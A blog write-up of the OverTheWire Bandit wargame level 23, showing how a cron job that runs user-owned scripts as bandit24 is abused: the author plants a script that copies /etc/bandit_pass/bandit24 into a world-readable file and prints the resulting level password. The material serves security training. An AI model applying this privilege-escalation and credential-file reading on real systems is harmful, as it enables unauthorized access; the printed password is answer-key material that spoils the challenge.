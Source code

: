 ```yaml
---
title: 'Bandit 23 Writeup'
date: '2023-10-13'
lastmod: '2023-10-13'
tags: ['CTF', 'OTW']
summary: "Bandit Level 22 is a challenge involving cron jobs"
thumbnail: '/static/images/bandit-2023/banner.png'
images: ['/static/images/bandit-2023/banner.png']
authors: ['psga','maysu']
layout: PostSimple
hidden: true
---
```

<div className="tocr not-prose">
    <TOCInline
        toc={[
            { value: 'Bandit', url: '/blog/bandit-2023', depth: 1 },
            { value: 'Level-14', url: '/blog/bandit-2023/level-14',depth: 2},
            { value: 'Level-15', url: '/blog/bandit-2023/level-15', depth: 2 },
            { value: 'Level-16', url: '/blog/bandit-2023/level-16', depth: 2 },
            { value: 'Level-17', url: '/blog/bandit-2023/level-17', depth: 2 },
            { value: 'Level-18', url: '/blog/bandit-2023/level-18', depth: 2 },
            { value: 'Level-19', url: '/blog/bandit-2023/level-19', depth: 2 },
            { value: 'Level-20', url: '/blog/bandit-2023/level-20', depth: 2 },
            { value: 'Level-21', url: '/blog/bandit-2023/level-21', depth: 2 },
            { value: 'Level-22', url: '/blog/bandit-2023/level-22', depth: 2 },
            { value: 'Level-23', url: '/blog/bandit-2023/level-23', depth: 2,active: true},
            { value: 'Level-24', url: '/blog/bandit-2023/level-24', depth: 2 },
            { value: 'Level-25', url: '/blog/bandit-2023/level-25', depth: 2 },
            { value: 'Level-26', url: '/blog/bandit-2023/level-26', depth: 2 },
            { value: 'Level-27', url: '/blog/bandit-2023/level-27', depth: 2 },
            { value: 'Level-28', url: '/blog/bandit-2023/level-28', depth: 2 },
            { value: 'Level-29', url: '/blog/bandit-2023/level-29', depth: 2 },
            { value: 'Level-30', url: '/blog/bandit-2023/level-30', depth: 2 },
            { value: 'Level-31', url: '/blog/bandit-2023/level-31', depth: 2 },
            { value: 'Level-32', url: '/blog/bandit-2023/level-32', depth: 2 },
        ]}
        title="levels"
        rightAlign
    />
</div>


# Concepts to consider
consider [Bandit 21 Writeup](/blog/bandit-2023/level-21)


# bandit 23

## Task 

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.


## Solution
lets see the file

```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```


```
cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
lets create a temp directory and a script , This script must be passed to foo

```
bandit23@bandit:/tmp/tmp.y8MUAUgn0i$ vim a.sh

bandit23@bandit:/tmp/tmp.y8MUAUgn0i$ cat a.sh
cat /etc/bandit_pass/bandit24 > /tmp/tmp.y8MUAUgn0i/holabebecita
chmod 444 /tmp/tmp.y8MUAUgn0i/holabebecita

bandit23@bandit:/tmp/tmp.y8MUAUgn0i$ cp a.sh /var/spool/bandit24/foo/a1.sh
```
That script copy the password to a file readable for the actual user

lets see the password
```
bandit23@bandit:/tmp/tmp.y8MUAUgn0i$ cat holabebecita
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```